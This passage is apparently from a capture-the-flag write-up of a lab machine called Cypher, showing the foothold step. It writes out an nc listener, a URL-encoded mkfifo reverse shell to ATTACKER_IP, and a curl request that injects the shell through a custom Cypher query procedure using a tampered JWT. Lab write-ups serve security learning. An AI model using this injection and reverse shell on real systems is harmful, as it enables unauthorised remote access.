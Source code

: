 #### 👣 Foothold as neo4j

I use https://www.revshells.com to generate a `nc mkfifo` reverse shell, that will give me a `bash` shell on the target.
The reverse shell payload is also URL Encoded.

![](images/Pasted%20image%2020250716194352.png)

A `nc` listener is started on the attack host,

```
fcoomans@kali:~/htb/cypher$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```

And the URL Encoded payload `;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20ATTACKER_IP%204444%20%3E%2Ftmp%2Ff` is sent to the server.

```
fcoomans@kali:~/htb/cypher$ curl -s -b 'access-token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbicgT1IgdHJ1ZSBSRVRVUk4gJzViYWE2MWU0YzliOTNmM2YwNjgyMjUwYjZjZjgzMzFiN2VlNjhmZDgnIEFTIGhhc2ggLy8iLCJleHAiOjE3NTI3Mjk4NDB9.0aLQ2TGsW98XtUQBqAAGCmnHMIvy-0uVTPBVpgfXagM' "http://cypher.htb/api/cypher?query=CALL%20custom.getUrlStatusCode(';rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20ATTACKER_IP%204444%20%3E%2Ftmp%2Ff')" |jq
```
